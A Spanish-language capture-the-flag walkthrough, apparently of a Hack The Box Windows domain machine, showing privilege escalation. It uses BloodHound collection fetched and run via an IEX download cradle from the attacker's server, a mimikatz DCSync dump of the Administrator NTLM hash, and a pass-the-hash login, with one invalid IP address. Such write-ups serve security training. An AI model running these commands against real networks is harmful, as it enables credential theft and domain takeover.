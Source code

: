 1. Nos conectamos nuevamente con **Evil-WinRM**

    ```bash
    evil-winrm -i 10.10.10.275 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
    whoami
    whoami /priv
    whoami /all
    ```

    Nuevamente no encontramos nada muy interesante. Aqui tenemos que tirar de bloodhound

1. En la maquina de atacante preparamos el bloodhound

    ```bash
    sudo apt install neo4j bloodhound -y
    neo4j console

    bloodhoud &> /dev/null & disown

    wget https://raw.githubusercontent.com/puckiestyle/powershell/master/SharpHound.ps1
    python -m http.server 80
    ```

1. Recolectamos data desde la maquina victima

    ```powershell
    cd C:\Windows\Temp
    mkdir privesc
    cd privesc
    IEX(New-Object Net.WebClient).downloadString('http://10.10.17.51/SharpHound.ps1')
    Invoke-BloodHound -CollectionMethod All
    dir
    download 20210908210119_BloodHound.zip
    ```

Una vez el zip en la maquina de atacante, lo cargamos al BloodHound. Cargado vamos a la pestaña Analysis y 
miramos por `Find Shortest Paths to Domain Admins` pero no vemos gran cosa. Miramos el `Find Principals with DCSync Rights`
y vemos que el usuario **svc_loanmgr** tiene privilegios *GetChanges* y *GetChangesAll* sobre el dominio **EGOTISTICAL-BANK.LOCAL**.
Esto significa que podemos hacer un DCSync attack con este usuario.

#### DCSync Attack con mimikatz {-}

Buscamos el mimikatz en nuestra maquina de atacante

```bash
locate mimikatz.exe
cp /usr/share/mimikatz/x64/mimikatz.exe .
python -m http.server 80
```

Lo descargamos en la maquina victima y lo lanzamos para extraer el hash del usuario Administrator.

```powershell
iwr -uri http://10.10.17.51/mimikatz.exe -OutFile mimikatz.exe
C:\Windows\Temp\privesc\mimikatz.exe 'lsadump::dcsync /domain:egotistical-bank.local /user:Administrator' exit
```

Ahora que hemos recuperado el Hash NTLM del usuario Administrator, podemos hacer un **pass the hash**.

```bash
evil-winrm -i 10.10.10.175 -u 'Administrator' -H 823452073d75b9d1cf70ebdf86c7f98e
```

Ya somos usuario Administrator y podemos leer la flag.
